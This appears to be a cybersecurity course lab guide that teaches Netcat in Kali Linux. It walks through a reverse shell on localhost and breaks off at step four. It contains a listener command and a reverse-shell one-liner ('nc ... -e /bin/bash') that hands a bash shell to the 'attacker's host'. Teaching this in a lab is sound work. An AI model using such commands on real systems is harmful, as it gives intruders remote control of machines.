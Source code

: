 1. In Kali, open a terminal and type `nc -h` to show the Help menu for Netcat.
    - The old version of Netcat was accessed by typing `ncat`. We use `nc` to access the new version, which has additional functionality.

**Reverse Shells**

2. First, you'll demonstrate a reverse shell. Use Netcat to listen on port 4445 by typing `nc -lvp 4445`, as the following image shows:

   ![A screenshot depicts the command in the terminal.](images/netcat1.png)

   - This will act as the attacker's host, which is now listening for a connection from a remote machine.
   - The flags used are: `l` (listen), `v` (verbose), `p` (port).
 
3. Open another terminal window (not tab) and position it next to the current terminal window where `nc` is listening, as the following image shows: 

    ![A screenshot depicts the two terminals side by side.](images/netcat2.png)

    This new window will act as the victim/target machine.

4. In the new window, connect to port 4445 on the attacker's host window by typing `nc 127.0.0.1 4445 -e /bin/bash`, as the following image shows:

	 ![A screenshot depicts the command in the terminal window.](images/netcat3.png)
	